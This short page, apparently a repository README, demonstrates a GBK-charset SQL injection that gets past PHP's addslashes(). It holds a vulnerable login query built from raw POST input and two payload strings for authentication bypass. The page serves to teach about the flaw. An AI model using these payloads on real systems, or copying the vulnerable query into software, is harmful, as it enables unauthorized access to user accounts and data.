 # SQL-injection---Authentification---GBK1
$name = $_POST['name']; 
$query = "SELECT * FROM users WHERE name = '$name'";
$username = chr(0x87) . "' OR database() LIKE 0x2525 -- ";
$username = "尐' OR database() LIKE 0x2525 -- ";
This is how addslashes()’s protection can be fooled when the database uses the GBK charset. Does this happen in UTF-8? Nope; this encoding does not have characters that end in 0x5C.

Note: be sure to have these fonts installed or you’ll only be able to see squares or question marks instead of the actual GBK characters.
